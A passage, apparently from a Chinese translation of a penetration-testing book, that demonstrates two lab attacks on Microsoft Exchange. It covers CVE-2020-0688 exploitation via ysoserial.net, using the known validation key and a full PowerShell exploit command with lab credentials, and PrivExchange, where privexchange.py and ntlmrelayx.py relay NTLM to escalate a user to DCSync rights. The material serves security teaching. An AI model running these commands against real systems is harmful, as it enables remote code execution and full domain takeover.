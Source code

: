 登录 ECP 后，攻击者通过浏览器和开发者工具收集 **ViewStateUserKey**（来自 **ASP.NET_SessionID** cookie）和登录页面中的 **__VIEWSTATEGENERATOR** 值。**validationkey** 值是已知的（**CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF**）。为了生成恶意载荷，我们将使用一个叫做 **ysoserial.net**[25] 的工具。这个工具包含了在常见库中发现的已知小工具链。小工具是库代码中存在的代码片段，可以帮助攻击者通过逐个执行来触发恶意载荷。这个漏洞使用了 **TextFormattingRunProperties** 库。我们可以运行以下命令在 **C:\** 创建文件：

```
PowerShell.exe -ExecutionPolicy Bypass -File .\CVE-2020-0688.ps1 -Url https://192.168.56.106 -Username windomain\vinegrep -Password Qwerty123! -Command 'powershell whoami > C:/whoami.txt' -YsoserialPath .\ysoserial\ysoserial.exe
```

执行结果如下：

![图 1.19 – CVE-2020-0688 成功利用](img/B18964_01_19.jpg)

图 1.19 – CVE-2020-0688 成功利用

文件创建在 **C:\**。

![图 1.20 – 文件创建在 C:\，并包含 whoami 命令的输出](img/B18964_01_20.jpg)

图 1.20 – 文件创建在 C:\，并包含 whoami 命令的输出

第二个漏洞需要三个条件，称为**PrivExchange**[26]。第一个条件是 Exchange 在域中的权限过高。**Exchange Windows Permissions**组在域对象上具有**WriteDacl**权限，这使攻击者能够获得**DCSync**权限。**DCSync**是一项允许你同步域中所有哈希值的特权。通常，这一特权由域控制器在复制过程中使用。攻击者只需请求一个域控制器发送哈希值以进行同步。

第二个条件是机器账户的 NTLM 中继可能性，第三个条件是攻击者可以强制 Exchange 通过**PushSubscription**功能对监听器进行身份验证。我们将在*第五章*中更详细地讨论中继问题。

让我们通过使用**ntlmrelayx**工具和**privexchange**漏洞[27]来执行攻击：

```
python privexchange.py -ah 192.168.56.100 exchange.windomain.local -u vinegrep -d windomain.local
ntlmrelayx.py -t ldap://192.168.56.102 --escalate-user vinegrep
```
